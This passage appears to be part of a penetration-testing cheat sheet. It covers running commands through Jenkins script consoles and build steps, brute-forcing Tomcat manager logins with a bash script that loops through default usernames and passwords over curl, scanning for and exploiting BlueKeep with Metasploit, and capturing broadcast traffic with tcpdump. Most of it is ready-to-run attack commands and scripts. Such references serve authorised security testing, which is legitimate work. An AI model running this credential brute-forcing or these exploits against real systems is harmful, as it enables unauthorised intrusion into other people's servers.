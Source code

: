     proc.consumeProcessOutput(sout, serr) proc.waitForOrKill(1000)
    println "out> $sout err> $serr"
    ```
    - For non-admins, but those who can create/add/edit builds, you can run a build cmd
      - Edit the build, add a build step, "Execute Windows batch cmd", and then `powershell.exe -c` away!
      - If build steps/commands exist, move yours to the top. If any step fails, it cancels the subsequent ones
- Check for Splunk
- Check for Tomcat:
  ```
  #!/bin/bash
  USERS="tomcat admin manager role role1 root"
  PASSS="password Password1 password1 admin tomcat tomcat manager role1 tomcat changethis Password1 changethis password password1 r00t root toor tomcat s3cret password1 password admin changethis"
  HOSTS="list:8080 of:8080 servers:8080"
  for HOST in $HOSTS; do
    for USER in $USERS; do
      for PASS in $PASSS; do
        echo "[*] CHECKING: $USER:$PASS@$HOST/manager/html"
        curl -s -k -i http://$USER:$PASS@$HOST/manager/html | grep '200 OK'
      done
      echo "[*] CHECKING: $USER:@$HOST"
      curl -s -k -i http://$USER:@$HOST/manager/html | grep '200 OK'
    done
  done
  ```

## TCP/3389 Remote Desktop Protocol (RDP)
- Scan for BlueKeep:
  ```
  msfconsole
  spool msf-bluekeep-scan.txt
  use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
  set RHOSTS open-ports/3389.txt
  set THREADS 10
  run
  ```
- Exploiting BlueKeep
  - MSF has a module, but it will likely DoS Win2k8. Win7 is more stable and can get you a shell.
  - NCC has some internal exploits you may want to try if this is your only option.

## Broadcast Traffic Attacks
- `tcpdump` command for listening to all broadcast traffic: `tcpdump -i eth0 -w dumps/tcpdump-broadcast ether broadcast and ether multicast`

---

# Linux

---
